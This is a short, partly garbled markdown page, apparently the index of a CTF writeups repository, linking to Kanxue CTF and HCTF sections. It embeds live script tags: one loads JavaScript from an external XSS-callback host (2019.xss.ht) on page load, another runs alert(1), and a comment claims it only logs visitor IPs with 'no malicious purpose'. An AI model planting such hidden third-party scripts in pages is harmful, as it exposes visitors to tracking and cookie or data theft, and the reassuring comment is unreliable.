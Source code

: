 # ctf writeups
[看雪CTF](/kxctf/kxctf "看雪CTF")

[hctf](/hctf/hctf "hctf")

<script src=https://2019.xss.ht> 
 </script>
<script>
alert(1);
</script>
<!-- for recording every IP visiting my blog only, no malicious purpose -->
